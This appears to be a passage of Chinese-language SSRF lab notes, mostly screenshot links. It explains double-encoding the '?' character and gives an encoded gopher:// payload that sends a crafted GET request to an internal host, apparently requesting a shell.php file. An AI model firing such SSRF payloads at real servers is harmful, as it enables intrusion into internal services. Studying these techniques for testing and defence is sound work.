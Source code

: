 ![image.png](./SSRF.assets/2023_05_19_10_39_40_ovTkS6fF.png)

将?(%3f)编码成(%25%3f)

```http
gopher://192.168.200.38:8888/_%47%45%54%20%2f%74%65%73%74%2e%70%68%70%253f%66%69%6c%65%31%3d%73%68%65%6c%6c%2e%70%68%70%250d%250a%48%6f%73%74%3a%20%31%32%37%2e%30%2e%30%2e%31
```
![image.png](./SSRF.assets/2023_05_19_10_39_41_cGnkaMb9.png)

![image.png](./SSRF.assets/2023_05_19_10_39_41_oiWXhqEr.png)
